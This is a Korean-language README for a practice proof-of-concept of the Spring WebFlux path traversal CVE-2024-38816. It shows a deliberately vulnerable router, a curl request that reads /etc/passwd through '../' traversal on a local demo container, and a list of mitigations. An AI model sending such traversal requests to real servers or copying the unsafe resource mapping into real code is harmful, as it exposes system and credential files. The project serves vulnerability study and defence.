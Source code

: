 # CVE-2024-38816 - Spring WebFlux Path Traversal PoC

> Spring WebFlux 정적 자원 라우팅 취약점을 악용한 디렉토리 경로 우회 (Path Traversal) 실습 프로젝트

---

## 📌 개요

이 프로젝트는 [CVE-2024-38816](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-38816) 취약점을 실습하고 검증하기 위한 PoC입니다.

Spring WebFlux 환경에서 `RouterFunctions.resources()` 메서드를 사용할 때, 경로 정규화 없이 사용자 입력을 그대로 파일 시스템에 매핑할 경우 **디렉토리 경로 우회(Path Traversal)**가 발생할 수 있습니다.

---

## ⚙️ 환경 정보

- **Framework**: Spring Boot 3.0.13 (WebFlux)
- **Java**: OpenJDK 17
- **Build Tool**: Gradle 7.6.1
- **Platform**: Docker 기반 멀티스테이지 빌드 사용
- **PoC 기반**: `FileSystemResource`와 `/static/**` 매핑

---

## 🛠️ 실행 방법

### 1. 프로젝트 클론 및 이동

```bash
git clone https://github.com/your-id/cve-2024-38816-poc.git
cd cve-2024-38816-poc
```

### 2. Docker 빌드 및 실행

```bash
docker build -t path-traversal-demo .
docker run --rm -p 8080:8080 path-traversal-demo
```

---

## 🧪 공격 시나리오

실행 중인 애플리케이션에 다음 요청을 보내 `/etc/passwd` 파일을 노출시킬 수 있습니다.

```bash
curl http://localhost:8080/static/link/../link/../etc/passwd
```

### 기대 결과 (Linux 환경일 경우):

```
root:x:0:0:root:/root:/bin/bash
...
```

---

## 📂 프로젝트 구조

```plaintext
.
├── Dockerfile
├── build.gradle
├── LICENSE
├── README.md
└── src/
    └── main/java/com/example/PathTraversalDemoApplication.java
```

---

## 🔐 취약 코드 설명

```java
@Bean
public RouterFunction<ServerResponse> staticRouter() {
    return RouterFunctions.resources("/static/**", new FileSystemResource("/app/static/"));
}
```

- `/static/**` 경로는 `/app/static/` 파일 시스템 루트를 그대로 참조합니다.
- 심볼릭 링크(`/static/link → /static`)와 상대경로(`../`)를 조합하면 디렉토리 탈출 가능

---

## ✅ 대응 방안

- 상대 경로 필터링 (`../` 포함 여부 체크)
- 정규화(normalization)된 경로만 허용
- classpath 내 리소스만 서빙하도록 제한
- 심볼릭 링크 제거 또는 분리된 볼륨 처리
- Spring Security 등을 활용한 경로 보호

---

## 📚 참고자료

- [Spring 공식 문서 - WebFlux Static Resources](https://docs.spring.io/spring-framework/docs/current/reference/html/web-reactive.html#webflux-static-resources)
- [CVE 공식 등록: CVE-2024-38816](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-38816)
- [PoC 원본 GitHub](https://github.com/masa42/CVE-2024-38816-PoC)

---

## 📝 라이선스

본 프로젝트는 MIT 라이선스를 따릅니다.
